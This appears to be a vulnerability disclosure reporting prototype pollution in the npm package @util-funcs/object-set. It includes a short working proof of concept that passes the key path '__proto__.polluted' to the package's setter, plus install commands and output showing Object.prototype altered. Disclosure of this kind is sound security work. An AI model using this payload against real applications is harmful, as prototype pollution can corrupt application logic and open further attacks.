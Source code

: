 # Description

`@util-funcs/object-set` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var set = require("@util-funcs/object-set")
var obj = {}
console.log("Before : " + {}.polluted);
set.default(obj,"__proto__.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i @util-funcs/object-set # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
